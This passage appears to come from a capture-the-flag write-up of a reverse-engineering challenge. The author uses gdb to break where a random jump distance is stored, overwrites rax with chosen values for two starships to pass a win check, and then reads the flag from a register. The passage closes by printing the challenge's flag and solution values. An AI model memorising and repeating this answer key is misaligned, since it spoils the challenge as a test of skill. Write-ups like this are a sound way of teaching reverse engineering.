In the decompilation, we see two variables rax_86 and rax_92 are generated based on randomness and then used to set distance. This distance is then passed to jump. However, if we change the value being moved into the distance variable directly, we can control it.



We can look at the disassembly between the putchar and puts calls. A stack value `var_3cc_1` is moved into `eax`. This is then moved into another stack offset `rbp-0x3d8`, which is our distance variable, that is then no longer modified and used as our final jump parameter. So, if we break on the `mov dword ptr [rbp - 0x3d8], eax` instruction, directly set the value of rax with gdb, and then continue execution we can control our distance.



Here is an example of this. I reach the breakpoint, but the randomly generated distance happens to be 5. I want to jump 4, so I set rax to 4, continue execution, and we can see it will jump 4 times as we decided.

I repeated this process 10 times setting rax to the following values for each starship as decided earlier:
Starship 1: `[4, 1, 6, 5, 4]`
Starship 2: `[5, 4, 6, 6, 6]`


After following this procedure, we passed the win check! The flag generation code is running! However, as stated earlier, the flag is never printed, so we must find it.

I eventually broke at the last instruction of the flag generation code and found the flag in rcx! This also happens to be the same memory address that the encrypted bytes were copied into at the start of the program!



### Flag: `USCGSIV{148c1252d_U_so1ved_it@Warp_Sp33d}`
